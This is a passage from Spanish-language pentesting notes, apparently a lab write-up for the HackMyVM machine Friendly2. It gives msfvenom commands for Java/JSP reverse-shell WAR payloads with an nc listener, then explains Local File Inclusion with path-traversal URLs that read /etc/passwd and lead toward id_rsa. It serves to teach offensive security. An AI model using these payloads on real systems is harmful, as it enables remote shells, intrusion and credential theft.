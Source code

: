 ```bash
msfvenom -p java/shell_reverse_tcp LHOST=<IP máquina atacante> LPORT=443 -f war -o reverse1.war
```

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP máquina atacante> LPORT=443 -f war -o reverse2.war
```

Nos ponemos en escucha y vemos cual funciona.

```bash
nc -nlvp 443
```

## Explotación Vulnerabilidad Local File Inclusion

{% embed url="https://hackmyvm.eu/machines/machine.php?vm=Friendly2" %}

La explotación de la vulnerabilidad **Local File Inclusion (LFI)** es una técnica que aprovecha fallos en aplicaciones web para acceder a archivos locales del servidor. En términos sencillos, **LFI** permite a un atacante manipular rutas de archivos para incluir archivos que están almacenados en el servidor, logrando así exponer datos sensibles, código fuente o archivos de configuración que, en condiciones normales, deberían estar protegidos.

LFI ocurre cuando una aplicación web permite la inclusión de archivos locales sin una validación adecuada de las entradas. Esto sucede comúnmente en aplicaciones que aceptan rutas de archivos como parámetros en una URL. Por ejemplo, si una aplicación tiene un parámetro de URL como:

```arduino
http://example.com/index.php?page=home.php
```

Aquí, el valor de `page` se utiliza para cargar un archivo en el servidor (`home.php`). Si no se valida el valor de `page`, un atacante puede modificarlo para intentar cargar otros archivos del sistema. Por ejemplo:

```bash
http://example.com/index.php?page=/etc/passwd
```

El archivo `/etc/passwd` en sistemas Unix/Linux contiene información sobre los usuarios del sistema y, aunque no suele incluir contraseñas en texto claro, su acceso puede dar información importante al atacante.

#### Explotación Básica de LFI

La explotación de LFI se realiza a menudo mediante el uso de **ruta transversal** o **path traversal** (`../../`). Esto permite que el atacante navegue fuera del directorio de la aplicación y acceda a otras áreas del sistema de archivos. Ejemplo:

```bash
http://example.com/index.php?page=../../../../etc/passwd
```

#### Explotación de LFI para Acceder al Archivo `id_rsa`

1. **Identificar la Vulnerabilidad LFI:**
   *   Usualmente, un parámetro en la URL, como `page`, `file`, `doc`, o similar, se utiliza para incluir archivos en el servidor. Por ejemplo:
